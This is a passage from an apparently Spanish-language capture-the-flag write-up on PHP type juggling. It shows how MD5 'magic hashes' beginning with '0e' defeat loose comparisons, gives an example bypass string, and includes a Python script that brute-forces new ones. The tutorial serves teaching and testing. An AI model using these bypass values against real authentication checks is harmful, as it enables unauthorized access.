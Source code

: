 * [Acá hay una graaaaaaaan lista de hashes **MD5** flotantes](https://github.com/spaze/hashes/blob/master/md5.md).

Si tomamos alguno, por ejemplo: `NOOPCJF` y lo probamos en nuestro `test.php`, generamos el bypass:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/articles/typejuggling/juggling_testPHP_bypasswith_NOOPCFJ_WEB.png" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 100%;"/>

**Ya podríamos probar en la web y también obtendríamos la flag, solo que sería la del reto.**

Pero ta feo simplemente copiar y pegar, intentemos buscar una cadena nosotros mismos...

...

# Jugamos con <u>Python</u> para encontrar hash tipo <u>float</u> [#](#py-juggling) {#py-juggling}

Eso sí, debemos tener paciencia, ya que tenemos que generar dos cosas importantes:

* Un hash que inicie con `0e`.
* Que el contenido después del `0e` sea únicamente números.

Juguemos con cadenas **random**, así mismo será la posibilidad de obtener rápido algún hash con los criterios necesarios...

```py
#!/usr/bin/python3

import hashlib
import string
import random
import signal

# Funciones ---------------------------.
def def_handler(signal, frame):  # Controlamos salida con Ctrl+C
    print()
    exit()

signal.signal(signal.SIGINT, def_handler)

# Inicio del programa -----------------.
dic = string.ascii_letters + string.digits  # abc...xyzABC...XYZ0123456789
rand_index = list(range(7, 15))  # Generamos array: [7, 8 ... 13, 14]

while True:
    # Elegimos un numero aleatorio de nuestro array (entre 7 y 14), ese numero será el tamaño de la cadena.
    # Y la cadena se construye con caracteres aleatorios del diccionario.
    random_value = ''.join(random.choices(dic, k=random.choice(rand_index)))
    # Generamos hash MD5 correspondiente al valor random.
    hash_random_value = hashlib.md5(random_value.encode('utf-8')).hexdigest()

    # Si el hash empieza con 0e, jugamos...
    if hash_random_value.startswith("0e"):
        # Extraemos todo lo que esta despues del 0e y validamos si su contenido es numerico.
        if hash_random_value[2:].isnumeric():
            # Si es numerico, tenemos el hash del texto que PHP interpreta como flotante.
            print(f"[+] Texto: {random_value} - Hash: {hash_random_value}")
            break
```
